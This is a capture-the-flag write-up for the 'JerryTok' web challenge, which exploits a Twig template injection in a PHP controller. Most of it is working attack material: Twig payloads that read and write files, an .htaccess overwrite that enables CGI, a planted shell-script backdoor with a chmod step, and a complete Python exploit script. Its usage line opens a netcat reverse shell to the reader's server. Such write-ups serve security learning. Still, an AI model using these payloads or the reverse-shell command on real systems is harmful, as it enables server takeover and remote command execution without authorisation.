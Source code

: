 # Challenge: JerryTok
## Rate: Medium

Analyzing the source code:

- `DefaultController.php`
    
    ```bash
    <?php
    ...
    
            $location = $request->get('location');
    
    ...
            
            $message = $this->container->get('twig')->createTemplate(
                    "Located at: {$location} from your ship's computer"
                )
                ->render();
    ...
    ```
    

Simple SSTI - `http://<Challenge_URL>?location={{7*7}}`

```php
{{7*7}}
```

- Disabled Functions:
    
    ```bash
    echo "disable_functions = exec, system, popen, proc_open, shell_exec, passthru, ini_set, putenv, pfsockopen, fsockopen, socket_create, mail" >> /etc/php82/conf.d/disablefns.ini
    ```
    

We can use `file_get_contents` and `file_put_contents` functions to bypass these limitations.

File Read:

```php
{{['file:///www/src/Controller/DefaultController.php']|map('file_get_contents')|join}}
```

Binary File Read:

```php
{{['php://filter/convert.base64-encode/resource=/www/src/Controller/DefaultController.php']|map('file_get_contents')|join}}
```

PHP Info Write:

```php
{{['/www/public/info.php',"<?php phpinfo();"]|sort('file_put_contents')}}
```

Since we have limited by `open_basedir` to only access to `/www` directory, we have to get rid of it by overwriting it with `.htaccess`.

```bash
echo "open_basedir = /www" >> /etc/php82/conf.d/openbdir.ini
```

Overwrite `.htaccess` and add an exception for CGI files to bypass `open_basedir` limitation:

```bash
Options  ExecCGI
AddHandler cgi-script .test
```

```bash
%7B%7B%5B'/www/public/.htaccess',%22Options%20+ExecCGI%0AAddHandler%20cgi-script%20.test%0A%22%5D%7Csort('file_put_contents')%7D%7D

{{['/www/public/.htaccess',"Options%20+ExecCGI%0AAddHandler%20cgi-script%20.test%0A"]|sort('file_put_contents')}}
```

Create `shell.test`

```bash
#!/bin/sh\necho&&echo ID:;id;echo FLAG;/readflag
```

```php
{{['/www/public/shell.test',"%23%21%2Fbin%2Fsh%5Cnecho%26%26echo%20ID%3A%3Bid%3Becho%20FLAG%3B%2Freadflag%0A"]|sort('file_put_contents')}}
```

`Chmod 551 shell.test`

```php
{{['/www/public/shell.test',511]|sort('chmod')}}
```

Call CGI

```bash
curl http://127.0.0.1/shell.test
```

Exploit:

```python
import requests
import urllib.parse
import argparse

def exploit_ssti(payload):
    ssti_url = f"{url}?location={payload}"
    return requests.get(ssti_url)

if __name__ == '__main__':
    parser = argparse.ArgumentParser(
                prog='mb_send_mail_xpl',
                description='Exploit solution for HTB challenge JerryTok')
    parser.add_argument('-u', '--url', default='http://127.0.0.1:1337', help='Target URL.')
    parser.add_argument('-c', '--command', default='id', help='Command to execute on target.')
    args = parser.parse_args()
    url = args.url
    command = args.command

    htaccess = """Options +ExecCGI\nAddHandler cgi-script .test\n"""
    payload = f"{{{{['/www/public/.htaccess','{htaccess}']|sort('file_put_contents')}}}}"
    exploit_ssti(payload)

    cgi_backdoor = urllib.parse.quote(f"#!/bin/sh\n\necho&&{command}")
    payload = f"{{{{['/www/public/shell.test','{cgi_backdoor}']|sort('file_put_contents')}}}}"
    exploit_ssti(payload)

    payload = "{{['/www/public/shell.test',511]|sort('chmod')}}"
    exploit_ssti(payload)

    response = requests.get(f"{url}/shell.test")
    print(response.text)
```

```bash
python3 exploit-jerryTok.py --url http://<challenge_ip>:<challenge_port> --command "nc <your_server_ip> 1234 -e /bin/sh"
```

![image](./image/flag.png)
